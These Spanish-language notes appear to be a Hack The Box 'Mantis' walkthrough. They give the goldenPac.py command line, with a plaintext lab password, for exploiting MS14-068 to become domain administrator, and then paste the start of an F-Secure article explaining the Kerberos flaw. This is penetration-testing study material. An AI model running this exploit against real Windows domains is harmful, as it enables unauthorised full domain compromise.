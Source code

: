 Esta vulnerabilidad permite modificar un token de inicio de sesión  de un usuario de dominio válido, agregando para ello una declaración falsa de que el usuario es miembro del grupo administradores del dominio, de la red. Sin tener que modificar los usuarios.

** Uso de 'goldenPac' (impacket) para explotar la vulnerabilidad y acceder al sistema **
> Buscamos la utilidad goldenPac.py:
> `locate goldenPac.py`			// /usr/share/doc/python-impacket/examples/goldenPac.py
> La utilidad hace uso de los nombres de dominio, por lo que habría que añadirlos a nuestra configuración de red:
> `nano /etc/hosts`					// 10.10.10.52	mantis.htb.local htb.local
> Uso de goldenPac.py:
> `python goldenPac.py htb.local/james:J@m3s_P@ssWOrd\!@mantis.htb.local`
> Acceso al sistema como usuario con máximos privilegios

=========================================================================

** POC article **
https://labs.f-secure.com/archive/digging-into-ms14-068-exploitation-and-defence/

# Digging into MS14-068, Exploitation and Defence

Ben Campbell, and Jon Cave, 16 December 2014

The security world has been abuzz lately after Microsoft released a critical security patch to fix a flaw in a core service provided by domain controllers. The vulnerability, known by the identifier MS14-068 (CVE-2014-6324), allows any authenticated domain user to escalate their privileges to domain administrator. As a result, an authenticated attacker is able to completely compromise the domain. Most concerning of all [it was revealed](http://blogs.technet.com/b/srd/archive/2014/11/18/additional-information-about-cve-2014-6324.aspx) that this issue was being exploited in the wild!

This post will discuss the technical details of this vulnerability and provide a brief guide for exploiting this issue in a couple of common scenarios that may be encountered during a penetration test.

### Kerberos in a Windows Domain

Kerberos enables users to authenticate to services via a trusted third party. This allows authentication to be centralised so that all the remote services in a network do not require access to user secrets for authentication purposes. The following steps provide a brief overview of the initial stages of the Kerberos protocol in a Windows domain:

#### 1. AS-REQ

The user authenticates with the trusted third party known as the Key Distribution Centre (KDC) — the domain controller in a Windows domain — by sending a message containing their identity and a timestamp encrypted with their password as proof of identity.

#### 2. AS-REP

If the user authenticated successfully then the KDC constructs a ticket granting ticket (TGT) that will be used by the client to request tickets for other services. The TGT is a service ticket for the Ticket Granting Service (TGS) which is also running on the KDC.

![tgt](https://labs.f-secure.com/assets/Uploads/tgt.png)
